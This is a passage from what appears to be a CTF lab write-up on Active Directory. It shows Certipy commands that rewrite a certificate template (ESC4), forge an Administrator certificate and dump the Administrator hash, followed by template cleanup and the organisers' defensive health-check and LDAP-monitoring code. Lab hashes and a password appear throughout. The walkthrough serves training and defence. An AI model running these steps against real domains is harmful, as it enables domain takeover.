~$ certipy template -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -template 'BackwardDev' -write-default-configuration 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Saving current configuration to 'BackwardDev.json'
[*] Wrote current configuration for 'BackwardDev' to 'BackwardDev.json'
[*] Updating certificate template 'BackwardDev'
[*] Deleting:
[*]     msPKI-RA-Application-Policies: []
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     msPKI-RA-Signature: 0
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Minimal-Key-Size: 2048
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'BackwardDev'? (y/N): y
[*] Successfully updated 'BackwardDev'
```

We can verify that the `Enrollee Supplies Subject` property has been set to `True`:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 20
Certipy v5.0.3 - by Oliver Lyak (ly4k)

    Template Name                       : BackwardDev
    Display Name                        : Backward Dev
    Certificate Authorities             : BACKWARD-ENTERPRISE-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
```

Just like we did with `BackwardUser`, we can now request a certificate for the `iqbal.hassan` user, but artificially setting the `userPrincipalName (UPN)` to  `Administrator@backward.rv`:

```
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -upn 'Administrator@backward.rv' -template 'BackwardDev'  
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 12
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We can then use this `PFX` file to authenticate to `LDAP` as `Administrator`, from which we can do exactly what we did in [Path 1: ESC1](#path-1-esc1) to get the final flag:

```
~$ nxc ldap dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
```

### Cleanup

As we have modified the `BackwardDev` template, it is good practice to revert the changes to avoid leaving the environment in a vulnerable state. We can use the saved configuration file `BackwardDev.json` to restore the original settings of the template:

```
~$ certipy template -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -template 'BackwardDev' -write-configuration BackwardDev.json                    
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Saving current configuration to 'BackwardDev.json'
File 'BackwardDev.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): n
[*] Wrote current configuration for 'BackwardDev' to 'BackwardDev_ffca128e-e91d-4e24-bbfd-6ecfcb17a869.json'
[*] Updating certificate template 'BackwardDev'
[*] Adding:
[*]     msPKI-RA-Application-Policies: ['2.5.29.37.0']
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x8c\x0c\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x04\x00\xf8\x00\x07\x00\x00\x00\x05\x008\x00\x00\x01\x00\x00\x01\x00\x00\x00h\xc9\x10\x0e\xfbx\xd2\x11\x90\xd4\x00\xc0Oy\xdcU\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94D\x06\x00\x00\x00\x00$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x00\x02\x00\x00\x00\x00$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94D\x06\x00\x00\x00\x00\x14\x00\x94\x00\x02\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x12\x00\x00\x00\x00\x12$\x00\xff\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x07\x02\x00\x00\x00\x12$\x00\xbd\x01\x0f\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x00\x02\x00\x00\x01\x05\x00\x00\x00\x00\x00\x05\x15\x00\x00\x00G\xb6\xf6\x80\x1eW;\x91V\xa8\x80\x94\x07\x02\x00\x00'
[*]     flags: 131642
[*]     pKIDefaultKeySpec: 1
[*]     pKIKeyUsage: b'\xa0\x00'
[*]     pKIMaxIssuingDepth: 0
[*]     pKICriticalExtensions: ['2.5.29.15']
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.3']
[*]     msPKI-RA-Signature: 1
[*]     msPKI-Enrollment-Flag: 43
[*]     msPKI-Private-Key-Flag: 16842768
[*]     msPKI-Certificate-Name-Flag: -1577058304
[*]     msPKI-Minimal-Key-Size: 4096
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.3']
Are you sure you want to apply these changes to 'BackwardDev'? (y/N): y
[*] Successfully updated 'BackwardDev'
```

We can verify that the `Enrollee Supplies Subject` property has been reverted to `False`:

```
~$ certipy find -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -stdout -enabled | grep 'BackwardDev' -A 20

Certipy v5.0.3 - by Oliver Lyak (ly4k)

    Template Name                       : BackwardDev
    Display Name                        : Backward Dev
    Certificate Authorities             : BACKWARD-ENTERPRISE-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
```

# Behind the Scenes

In the 2 previous conferences that we sponsored this year, we presented similar ranges: [SINCON 2025](https://blog.async.sg/sincon-2025-adcs-relay.html), and [Off-By-One 2025](https://blog.async.sg/offbyone-2025.html). In both of these conferences, we mainly focused on ensuring that the labs had the necessary guardrails to ensure that unintended solutions were not possible.

## A Common Theme

The effort was not in vain, as we observed that the majority of participants followed the intended paths. However, we did notice that a few participants were piggybacking off other participants' solutions, which led to some confusion. This is a common occurrence in Capture The Flag (CTF) events, where participants share the same network environment - referred to as "griefing".

There are a number of ways that participants can piggyback off each other, such as:

1. Adding common compromised users to privileged groups
2. Modifying `ADCS` templates, without reverting the changes
3. Tbh, too many more to list here...

This is not an easy problem to solve, especially in a live event where participants are actively trying to break into the environment. Instead of focusing on preventing unintended solutions, we placed a heavy emphasis on preventing these disruptions this time around.

## Environment Checking

A path that participants may have tried, was to [add the `jolene.ong` user to the `Senior Developers` group](#abusing-genericall-on-group) rather than creating a new user. This would have essentially "broken" the intended path, as the next participant would no longer have to abuse this `GenericAll` ACE.

In a fixed environment, it is trivial to identify the "default" users present in the environment. For example, in `antennae.rv`, we know that the `Senior Developers` group initially only contains 2 members. And as such, we can continually monitor the membership of this group, and remove any unexpected members.

```python
@healthcheck
def check_group_mem_senior_developers(ctx: Context) -> "TestResult":
    ctx.logger.info("Checking group membership for senior-developers...")
    config = ctx.config
    cred = config.get_credential("antennae_da")

    members = ad.get_group_membership(
        cfg=config,
        group_name="Senior Developers",
        dc_hostname="dc01",
        identifier=cred.id,
    )

    original_members = [
        "wei.jie.tan",
        "danish.hakim",
    ]

    disruptive_members = [m for m in members if m not in original_members]
    # more filtering can be done here, such as ignoring users that are known to be created by participants
    # e.g. disruptive_members = [m for m in disruptive_members if not m.startswith("rvctf2025-")]

    if disruptive_members:
      ctx.logger.warning(f"Disruptive members found in senior-developers: {', '.join(disruptive_members)}")
      cmd = f"""
$group = "senior-developers"
$members = @({', '.join([f'"{m}"' for m in disruptive_members])})
foreach ($member in $members) {{
  Remove-ADGroupMember -Identity $group -Members $member -Confirm:$false
}}
      """.strip()
      output = execute_command_winrm(
          server="dc01.antennae.rv",
          username=cred.username,
          password=cred.password,
          command=cmd
      ).strip()
    
    # do more stuff...
```

Of course, this can be extended to monitor anything else that is relevant to the environment - for example, ensuring that essential files are not modified, such that the next participant can still complete the challenge.

```python
@healthcheck
def check_wjt_ps_history(ctx: Context) -> "TestResult":
    config = ctx.config
    cred = config.get_credential("wei.jie.tan")
    
    output = execute_command_ssh(
        server="sql01.antennae.rv",
        username=cred.username,
        password=cred.password,
        command="Get-Content (Get-PSReadlineOption).HistorySavePath"
    ).strip()

    expected = r"""
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "EXEC sp_helpdb;"
"""
    if expected.strip() not in output:
      # uh oh, the challenge is not solvable anymore!
      # do stuff... maybe revert the changes?
```

Automating these checks can help to ensure that the environment remains in a consistent state, and that participants can complete the challenges as intended. Additionally, when handling these events in person, it's not easy to monitor the environment manually, especially when there are many participants. Automating these checks can help to reduce the workload on the event organizers, allowing them to focus on other aspects of the event.

> Many of these engineering efforts were done when designing the [W200](https://shop.async.sg/collections/w200-introduction-to-active-directory-penetration-testing) course, to ensure that the labs remain in a consistent state. Additionally, should any learner accidentally break the lab, we can monitor and revert the changes automatically, ensuring uptime even during weekends or non-working hours,

## LDAP Modifications

Another measure that can be done is taking a snapshot of the current `LDAP` state, and periodically checking for any changes and reverting them back. An example is the following snippet from our internal libraries that can used to monitor these changes

```python
def compare_snapshots(
    self, current_snapshot: Dict[str, Dict[str, Any]]
) -> List[LDAPChange]:
    changes = []
    timestamp = datetime.now()

    # [...snip...]

    current_attrs = current_snapshot[dn]
    all_attrs = set(self.baseline_attrs.keys()) | set(current_attrs.keys())

    for attr in all_attrs:
        baseline_value = self.baseline_attrs.get(attr)
        current_value = current_attrs.get(attr)

        # handle modifications in `member` attributes
        if attr == "member":
            baseline_members = set(baseline_value) if baseline_value else set()
            current_members = set(current_value) if current_value else set()

            added_members = current_members - baseline_members
            removed_members = baseline_members - current_members

            # someone added members to a group
            for member in added_members:
                changes.append(
                    LDAPChange(
                        change_type=ChangeType.MEMBER_ADDED,
                        dn=dn,
                        attribute="member",
                        old_value=None,
                        new_value=member,
                        timestamp=timestamp,
                    )
                )
```

This can be manually extended to monitor for all other attributes that are relevant to the environment, such as the `userAccountControl`, `msDS-AllowedToDelegateTo`, etc.

# Summary

Overall, we found that the event was a great success, with many participants enjoying the challenges and learning new skills. Partnering with [The Range Village](https://www.linkedin.com/company/the-range-village/) once again was a pleasure, and we're more than happy to help out with communiy-driven events like these.
